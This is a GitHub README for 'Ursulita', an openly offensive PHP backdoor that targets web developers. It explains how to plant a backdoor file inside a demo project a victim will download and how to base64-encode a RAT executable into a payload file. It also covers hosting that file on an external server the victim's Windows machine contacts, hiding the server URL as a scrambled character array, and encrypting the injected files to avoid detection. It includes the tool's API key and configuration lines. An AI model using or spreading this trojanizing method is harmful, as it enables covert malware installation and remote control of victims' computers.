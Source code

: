 # Ursulita Project
**Tested on**: PHP  7.0.27
**Tags**:PHP, backdoor, RAT, API

Thanks to [@Yulefier](https://github.com/Yulefier "@Yulefier") for helping.
# Description
Ursulita project is a web injectable backdoor for windows.

# Getting started

First the project is just an idea about hunting a web developers using a simple trap, You have **backdoor.php** file, you should inject this file inside a demo project or any project that you might know your victim is interested in, 

    $filename = "ursulita.exe"; 

so this will be the file name in the windows temp folder, you can rename it as you want, 

Inside the API.php file there's two important things first is the API jey

    case"ursulita".sha1("3433"): //The API key validation

so that's mean the API key will be **ursulita+3433(hashed into sha1)**

so the full API key will be..

    ursulitaF3C9B754086C5C5C8C23F084E2A523DE8FD9C769
if you wanted to change the API key , you must change it in backdoor.php file too.

The second thing and the most important is the RAT details or whatever you wanna inject in the victim PC, it will be encoded inside **API.php** file,
You can encode it using **encoder.php** tool that included with the project,

just by changing this two:

    $file = "ursulita.exe"; //The input file name
    $outfile = "EncodedUrsulita.txt"; //Output file name
Then from **EncodedUrsulita.txt** you take the **base64** encoded data and put it inside **API.php**.

So you will include the classes folder and the backdoor details in the victim project , but the **API.php** file should be on external public server because the victim PC will try to connect into the **API.php**.

Also , you should put the **API.php** link inside **/classes/SETTING.php** file:

    $index = array(0, 2, 3, 1, 5, 6, 4, 8, 9, 7, 11,10);
//  The below array is http://127.0.0.1/api.php , you need to change it to your API.php file link
$code = array("h", "p", "t", "t", "127.", ":", "//", "1", "0.", "0.", "api.php","/" );

This function is reading the **$code** array elements then it print them as your custom order in **$index** array .

The encoder.php tool this stays for you only.
some other ideas might be usefull for you, it's prefered to encrypt the **backdoor.php** and **SETTING.php** contains before injecting them in the victim project, encrypt them with a private key and hide the key in the victem project too , if you want to know more about the **AES** encrypting [Click Here](https://aesencryption.net/) .

# The project diagram

This is simple diagram to make it more clear.

![enter image description here](https://github.com/Alaa-abdulridha/Ursulita-Web-developers-trap/blob/master/Plan.png?raw=true)
